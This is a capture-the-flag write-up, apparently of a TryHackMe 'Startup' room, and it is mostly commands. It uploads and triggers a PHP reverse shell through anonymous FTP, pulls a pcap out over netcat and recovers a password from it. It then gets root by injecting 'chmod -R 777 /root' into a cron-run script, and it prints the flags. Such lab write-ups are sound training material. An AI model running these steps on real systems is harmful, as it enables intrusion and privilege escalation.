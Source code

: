 # Startup

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, wireshark, pspy64

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.228.144

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: run specified scripts<br>
-sV: probe open ports to determine service/version info
```
nmap --script vuln -sV 10.10.228.144
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3)<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Anonymous login allowed to ftp server

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.228.144 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Directory of Interest: /files

![1.3](./imgs/1.3.png)

10.10.228.144/files is hosting ftp

potential username found in notice.txt: maya

image found that could have hidden data<br>

See if there is anything hidden in important.jpg
```
binwalk important.jpg
steghide extract -sf important.jpg
```

nothing interesting found

### 2. REVERSE SHELL

Copy php reverse shell and edit IP
```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

![2.1](./imgs/2.1.png)

Upload php reverse shell to ftp server<br>
the /ftp directory has open permissions so we can upload to there 
```
ftp anonymous@10.10.228.144
put php-reverse-shell.php
```

![2.2](./imgs/2.2.png)

Start listener
```
nc -lnvp 1234
```

Activate the php reverse shell
```
curl http://10.10.228.144/files/ftp/php-reverse-shell.php
```

![2.3](./imgs/2.3.png)

```
cat recipe.txt
```
![2.4](./imgs/2.4.png)

**SECRET INGREDIENT**: love

```
cd incidents
```

Found pcap file

![2.5](./imgs/2.5.png)

Transfer to host machine

Start listener
```
nc -lnvp 4444 > file.pcapng
```

Send file
```
nc -v 10.10.228.144 4444 < suspicious.pcapng
```

### 3. WIRESHARK

Open pcap file in wireshark

![3.1](./imgs/3.1.png)

Someone started a reverse shell to 192.168.22.139:4444

Also found password

![3.2](./imgs/3.2.png)

**PASSWORD**: c4ntg3t3n0ughsp1c3

### 4. PIVOT

user lennie in /home directory

SSH as lennie
```
ssh lennie@10.10.228.144
```

![4.1](./imgs/4.1.png)

**USER FLAG**: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

### 5. PRIVILEGE ESCCALATION

check privileges
```
sudo -l
```

No sudo privileges

Found potential script we could exploit

![5.1](./imgs/5.1.png)

planner.sh is owned by root and executes /etc/print.sh<br>
lennie owns print.sh so we can inject or own code into it

Check for cronjobs executed by root<br>
Get pspy64 from https://github.com/DominicBreuker/pspy and transfer to lennie
```
scp pspy64 lennie@10.10.228.144:/home/lennie/pspy64
```

Run pspy64
```
chmod +x pspy64
./pspy64
```

![5.2](./imgs/5.2.png)

planner.sh is being executed by root every minute

Edit print.sh and exfiltrate files in /root<br>
-R: recursively apply permissions
```
echo "chmod -R 777 /root" >> /etc/print.sh
```

This will give /root and all its contents open permissions

![5.3](./imgs/5.3.png)

**ROOT FLAG**: THM{f963aaa6a430f210222158ae15c3d76d}

